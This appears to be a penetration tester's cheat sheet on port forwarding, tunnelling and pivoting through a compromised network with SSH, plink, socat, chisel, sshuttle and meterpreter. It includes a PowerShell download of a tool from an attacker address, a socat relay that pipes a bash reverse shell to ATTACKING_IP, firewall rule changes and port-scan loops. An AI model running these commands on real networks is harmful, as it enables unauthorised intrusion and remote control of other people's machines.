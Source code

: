 # Port Forwarding/Tunneling and Pivoting

### SSH Tunnelling / Port Forwarding

For example, if we had SSH access to 172.16.0.5 and there's a webserver running on 172.16.0.10, we could use this command to create a link to the server on 172.16.0.10.

```
ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN
```

We could then access the website on 172.16.0.10 (through 172.16.0.5) by navigating to port 8000 on our own attacking machine.

Proxies are made using the -D switch, for example: -D 1337. This will open up port 1337 on your attacking box as a proxy to send data through into the protected network. This is useful when combined with a tool such as proxychains. An example of this command would be:

```
ssh -D 1337 user@172.16.0.5 -fN
```

#### Reverse Connections

Generate a keypair:

```
ssh-keygen
```

Copy the contents of the public key (the file ending with .pub), then edit the ~/.ssh/authorized_keys file on your own attacking machine. You may need to create the ~/.ssh directory and authorized_keys file first.
On a new line, type the following line, then paste in the public key:

```
command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty INSERT_PUBLIC_KEY
```

This makes sure that the key can only be used for port forwarding, disallowing the ability to gain a shell on your attacking machine.

The only thing left is to do the unthinkable: transfer the private key to the target box. This is usually an absolute no-no, which is why we generated a throwaway set of SSH keys to be discarded as soon as the engagement is over.

With the key transferred, we can then connect back with a reverse port forward using the following command:

```
ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN
```

To put that into the context of our fictitious IPs: 172.16.0.10 and 172.16.0.5, if we have a shell on 172.16.0.5 and want to give our attacking box (172.16.0.20) access to the webserver on 172.16.0.10, we could use this command on the 172.16.0.5 machine:

```
ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN
```

This command can be used to create a reverse proxy in clients which do support it:

```
ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN
```

To close any of these connections, type ps aux | grep ssh into the terminal of the machine that created the connection.

Finally, type `sudo kill PID` to close the connection.

### Plink

Download `plink.exe`

```
C:\Users\Alfred>powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.8/plink.exe', 'plink.exe')"
```

Start SSH service on our attacking box.

```
root@kali:~# service ssh start
```

Run `plink.exe`

```
C:\Users\Alfred>plink.exe -l root -pw  -R 445:127.0.0.1:445 ATK_IP

Or

C:\Users\Alfred>plink.exe -l root@ATK_IP -R 445:127.0.0.1:445

Or

cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
```

Note that any keys generated by ssh-keygen will not work properly here. You will need to convert them using the puttygen tool, which can be installed on Kali using `sudo apt install putty-tools`. After downloading the tool, conversion can be done with:
`puttygen KEYFILE -o OUTPUT_KEY.ppk`
Substituting in a valid file for the keyfile, and adding in the output file.

Use `winexe` to get a shell

```
root@kali:~# winexe -U Administrator //127.0.0.1 "cmd.exe"
root@kali:~# winexe -U 'admin@password123' //127.0.0.1 cmd.exe

or

psexec.py USER:PASSWORD@IP cmd.exe
```

### Socat

#### Reverse Shell Relay

First let's start a standard netcat listener on our attacking box

```bash
sudo nc -lvnp 443
```

Next, on the compromised server, use the following command to start the relay:

```
./socat tcp-l:20000 tcp:ATTACKING_IP:443 &
./nc 127.0.0.1 20000 -e /bin/bash
```

#### Port Forwarding

- Easy
  On the compromised server

```
./socat tcp-l:LOCAL_PORT,fork,reuseaddr tcp:TARGET_IP:TARGET_PORT &
```

- Quiet

On the attacking machine

```
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```

On the compromised relay server

```
./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```

Check localhost:8000 on the attacker machine to see the port available on the intended target.

### Chisel

#### Reverse SOCKS Proxy

On the attacking machine start the server

```
./chisel server -p 8081 -reverse

./chisel server -p LISTEN_PORT --reverse &
```

On the target machine start the listening client

```
.\chisel.exe client 10.10.14.97:8081 R:8888:127.0.0.1:8888

./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
```

#### Forward SOCKS Proxy

Open port in windows firewall

```
netsh advfirewall firewall add rule name="Chisel-MuirlandOracle" dir=in action=allow protocol=tcp localport=47000
```

First, on the compromised host we would use:

```
./chisel server -p LISTEN_PORT --socks5
```

On our own attacking box we would then use:

```
./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks
```

### sshuttle

```bash

sshuttle -r user@172.16.0.5 172.16.0.0/24

sshuttle -r user@172.16.0.5 --ssh-cmd "ssh -i private_key" 172.16.0.0/24

sshuttle -r root@10.200.198.200 --ssh-cmd "ssh -i id_rsa" 10.200.198.0/24 -x 10.200.198.200
```

## Pivoting

Post exploitation on a windows machine. Find what machine the target is talking to

```
arp -a
```

On a meterpreter shell

```
run autoroute -s 10.10.10.0/24

List routes

run autoroute -p

background

use autiliary/scanner/portscan/tcp
set PORTS 80, 8080, 445, 21, 22
set RHOSTS 192.69.228.3-10
exploit

Back on the meterpreter session
portfwd add -l 1234 -p 21 -r 192.58.241.3
portfwd list

nmap -sS -sV -p 1234 localhost
use auxiliary/scanner/portscan/tcp
```

### Ping Sweeps

```
bash
for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done

netcat
for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done
```
